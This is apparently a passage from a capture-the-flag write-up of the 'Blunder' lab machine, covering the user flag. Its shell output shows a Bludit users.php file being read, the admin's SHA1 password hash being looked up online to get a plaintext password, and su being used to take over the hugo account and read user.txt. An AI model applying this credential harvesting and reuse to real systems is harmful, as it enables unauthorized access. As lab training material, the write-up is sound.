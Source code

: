 #### 3.1. User flag

1) Database creds (Version 2)

```
www-data@blunder:/var/www/bludit-3.10.0a$ cat bl-content/databases/users.php
cat bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
Found hash: `https://sha1.gromweb.com/?hash=faca404fd5c0a31cf1897b823c695c85cffeb98d` (Password120)


2) Privesc via found password

```
www-data@blunder:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root  root  4096 Apr 27 14:31 .
drwxr-xr-x 21 root  root  4096 Apr 27 14:09 ..
drwxr-xr-x 16 hugo  hugo  4096 May 26 09:29 hugo
drwxr-xr-x 16 shaun shaun 4096 Apr 28 12:13 shaun
www-data@blunder:/home$ su hugo
su hugo
Password: Password120

hugo@blunder:/home$ cd hugo
cd hugo
hugo@blunder:~$ cat user.txt
cat user.txt
47a144195947aad474b4cf5569a95547
hugo@blunder:~$
```
